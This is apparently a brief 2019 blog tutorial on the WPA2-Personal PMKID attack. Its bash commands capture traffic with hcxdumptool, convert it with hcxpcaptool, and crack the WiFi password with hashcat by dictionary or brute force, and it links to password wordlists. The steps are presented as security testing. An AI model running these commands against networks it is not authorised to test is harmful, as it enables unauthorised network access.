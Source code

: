 ```yaml
---
title: Testing Wireless AP Security
date: 2019-01-22 08:56:08
tags: 
    - Wifi
    - Networking
    - Security
category: Networking
---
```


### Testing Wireless AP security

A new flaw in WPA2-Personal has been found which doesn't require capturing the 4-way handshake as in KRACK. Wifi adapter will need to be capable on monitor mode. 

WPA2-EAP is not affected.  


```bash
## Capture the packet
sudo hcxdumptool -o test.pcapng -i <interface logical name> --enable_status=1
```
```bash
# Kill network manager if warning shows
# warning: NetworkManager is running with pid 828
# warning: wpa_supplicant is running with pid 890
# >>> sudo kill 828 890
# To restart: sudo systemctl start NetworkManager

# Convert into suitable hashcat format
./hcxpcaptool -z test.16800 test.pcapng
```
```bash
# Dictionary attack with hashcat
hashcat -m 16800 -a 0 -w 2 -o outfile test.16800 rockyou.txt

# Bruteforce with hashcat
hashcat -m 16800 -a 3 -o oufile -session=brute test.16800 <guess mask>
```

### Password lists

Crack station: https://crackstation.net/files/crackstation-human-only.txt.gz

Seclists: https://github.com/danielmiessler/SecLists/tree/master/Passwords

Rockyou: http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
